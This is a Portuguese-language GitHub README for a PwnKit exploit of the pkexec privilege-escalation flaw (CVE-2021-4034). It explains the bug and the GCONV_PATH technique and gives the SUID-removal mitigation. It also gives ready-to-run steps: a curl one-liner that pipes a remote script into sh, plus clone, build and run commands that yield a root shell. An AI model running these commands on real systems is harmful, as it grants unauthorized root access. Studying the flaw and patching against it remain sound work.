

# PwnKit

Esse repositório contém um exploit que desenvolvi para entender como funciona a vulnerabilidade Polkit Pkexec: CVE-2021-4034(Pkexec Local Privilege Escalation). O  Polkit (anteriormente conhecido como PolicyKit) é um componente que tem como função controlar os privilégios no sistema operacional do tipo Unix. Fornece de forma organizada uma forma de os processos sem privilégios se comuniquem como processos que possuem privilégios. A vulnerabilidade permite que qualquer usuário, um usuário comum do sistema, sem privilégios administrativos, alcance o máximo de privilégio no sistema.

A vulnerabilidade ocorre quando a função main() do pkexec processa argumentos de linha de comando em que o argumento é 0. A função tenta acessar a lista de argumentos e acaba tentando acessar o rgvvoid (um controlador de argumentos de linhas de comando). O resultado disso é a memória sendo lida e gravada fora dos limites, onde um invasor pode explorar e dessa forma injetar uma variável de ambiente que pode fazer com que um código malicioso seja carregado.

É simples de se entender, o fato dessas variáveis de ambiente poderem ser introduzidas torna o código vulnerável. A forma que eu usei para explorar a vulnerabilidade foi a mesma que foi usada pelo . O processo é simples, injetar uma variável GCONV_PATH no ambiente de trabalho do pkexec, ou seja, qualquer diretório disponível para usuários comuns do sistema. Essa variável vai executar uma biblioteca compartilhada como root. Deixando claro que essa técnica é barulhenta e deixa muitos rastros, pois a injeção da variável cria um diretório, e mesmo que oculto, ele compartilha os privilégios com o usuário root.

Caso você veja que seu sistema está vulnerável, atualize o quanto antes. Caso ainda assim você acredite que esteja vulnerável, podes remover o bit SUID do pkexec como uma forma de mitigação temporária, dessa forma: ```# chmod 0755 /usr/bin/pkexec```

Mais detalhes de como funciona a vulnerabilidade .

## Funcionamento

O exploit vai funcionar instantaneamente em distribuições vulneráveis baseadas em Debian, Ubuntu, Fedora e CentOS. Foi criado para fins de estudos sobre a vulnerabilidade e até onde eu consigo chegar atualmente sozinho com a linguagem C. Não use isso para fazer o que não deve.

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/Nosferatuvjr/PwnKit/main/PwnKit.sh)"
```

### Manual

```bash
git clone https://github.com/Nosferatuvjr/PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

### Showcase



### Build

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

## Detalhes da técnica e referências

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

- https://github.com/arthepsy/CVE-2021-4034/